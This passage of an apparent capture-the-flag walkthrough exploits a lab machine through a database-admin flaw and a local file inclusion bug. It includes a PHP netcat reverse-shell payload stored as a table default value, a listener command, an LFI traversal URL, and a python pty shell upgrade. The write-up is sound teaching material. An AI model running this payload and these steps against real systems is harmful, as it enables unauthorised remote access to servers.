 <br>
![a11](https://i.imgur.com/UGy4CHR.png)
<br>

The very first hit is for our version number. <br>

If you run  `searchsploit -x 24044`, you'll see a document explaining how the
exploit is operated. <br>
We'll break it down, step by step.

* Create a new database with a name ending in *".php"*
![a13](https://i.imgur.com/JdLyqJl.png)
<br>
<br>

* Select this new database and create a new table with one field.
![a14](https://i.imgur.com/sfGcXbM.png)
<br>
<br>
* Set the field to the "__Text__" type, and enter a php-command payload as the Default Value. <br>
I decided to use my most reliable netcat-based reverse-shell. <br> <br>
`<?php passthru("rm /tmp/f; mkfifo /tmp/f; cat /tmp/f|/bin/sh -i 2>&1|nc local.machine.ip.addr PORTNUM > /tmp/f"); ?>`


![a15](https://i.imgur.com/ageVsIt.png)
<br>


* Create the table, and set up the listener on your local machine.

`nc -lnvp PORTNUM`

<br>
![a16](https://i.imgur.com/Q1XQfzi.png)
<br>

* Visiting the database in the browser, using our handy-dandy LFI vulnerability will run the payload and pop our shell.

`http://192.168.56.101/view.php?page=../../../../usr/databases/a.php`

<br>
![a17](https://i.imgur.com/MSq2t1h.png)
<br>



## 3. From `www-data` to User

This shell could use some improvement, so let's see if we can't spawn a bash shell with a tty using python.

  `which python` <br>
  `which bash` <br>
  `python -c 'import pty;pty.spawn("/bin/bash")'`

